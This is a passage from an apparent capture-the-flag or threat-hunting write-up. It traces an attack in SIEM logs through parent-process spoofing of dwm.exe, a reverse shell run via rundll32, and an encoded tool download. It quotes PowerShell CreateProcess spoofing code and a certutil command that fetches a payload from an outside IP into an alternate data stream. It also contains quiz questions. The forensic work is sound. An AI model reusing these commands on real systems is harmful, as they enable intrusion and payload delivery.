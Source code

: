 6. `dwm.exe` is spawned with winlogon as the spoofed parent process:

```text
$result1 = [Kernel32]::CreateProcess($spawnTo,     # call to CreateProcess
                                  $cmdline, 
                                  [ref]$SecAttr, 
                                  [ref]$SecAttr, 
                                  0,
                                  0x08080004,
                                  [IntPtr]::Zero, 
                                  $currdir, 
                                  [ref] $sInfoEx, 
                                  [ref] $pInfo)
```

Updating the query to:

```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: ProcessCreate
```

Put the PID of the spawned process `dwm.exe` first.

***Q10 The malicious code run by the script is a Reverse Shell. Identify the IP address and port number of its command centre. Sample answer: 192.168.0.1:123***

```text
(*winlogon.exe* OR *dwm.exe*) AND event_type: NetworkConnection
```

The network connection comes from yet another process, `rundll32.exe`. Another layer of obfuscation.

***Q11 As a result of running a malicious code, which we talked about in questions 9 and 10, the attacker got a shell on the compromised host. Using this access, the attacker downloaded the Active Directory collection utility to the host in an encoded form. Specify a comma-separated, non-spaced link where the encoded version of the utility was downloaded and a SHA256 hash of the decoded version that was directly run by the attacker on the compromised host. Sample answer: http://domain.com/file,e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855***

Looking for `NetworkConnection AND FileCreate` events after the initial `rundll` network connection took place. Limiting results:

```text
(event_type : "NetworkConnection" or event_type : "filecreate") and not proc_p_file_path : "C:\Program Files (x86)\Google\Chrome\Application\chrome.exe"
```

1. At `23:46:10.000`, `certutil` (which has a history of being used as a lolbin) makes a network connection, downloads a file `chrome_installer.log2`, and creates a file by the name of `svchost.exe` and . 

At 23:46:10.000:

```text
certutil  -urlcache -f http://188.135.15.49/chrome_installer.log2 C:\Windows\TEMP\chrome_installer.log2:data
```
